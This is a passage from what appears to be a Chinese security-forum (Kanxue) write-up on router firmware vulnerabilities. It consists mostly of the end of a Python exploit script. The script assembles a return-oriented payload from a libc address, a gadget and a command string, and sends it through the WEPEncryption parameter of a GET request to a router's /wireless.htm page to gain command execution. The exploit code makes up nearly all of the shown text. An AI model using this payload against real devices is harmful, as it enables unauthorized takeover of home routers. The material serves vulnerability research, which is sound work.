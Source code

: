 ```
payload += 'FFFF'
payload += p32(Libc_Addr+gadget) # PC
payload += 'HHHH'
payload += cmd
 
if __name__ == '__main__':
    #key = "Content-Type:text/html;charset:utf-8\r\n"
    RHOST = '127.0.0.1'
    RPORT = 40080
    request = ""
    request+= "GET /wireless.htm?WEPEncryption={} HTTP/1.1\r\n".format(payload)
    request+= "Host: {}:{}\r\n".format(RHOST,str(RPORT))
    request+= "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0"
    request+= "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
    request+= "Accept-Language: en-US,en;q=0.5"
    request+= "Accept-Encoding: gzip, deflate"
    request+= "Connection: close"
    request+= "Upgrade-Insecure-Requests: 1"
    request+= "\r\n\r\n"
 
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(request)
    print(request)
    # msg = s.recv(1024)
    s.close()
    # print msg

```

![](https://bbs.pediy.com/upload/attach/202201/642281_MD7UJ4NH8FY9839.png)

[【公告】看雪团队招聘安全工程师，将兴趣和工作融合在一起！看雪 20 年安全圈的口碑，助你快速成长！](https://job.kanxue.com/position-read-1104.htm)

[#固件分析](forum-128-1-170.htm) [#漏洞分析](forum-128-1-171.htm) [#家用设备](forum-128-1-173.htm)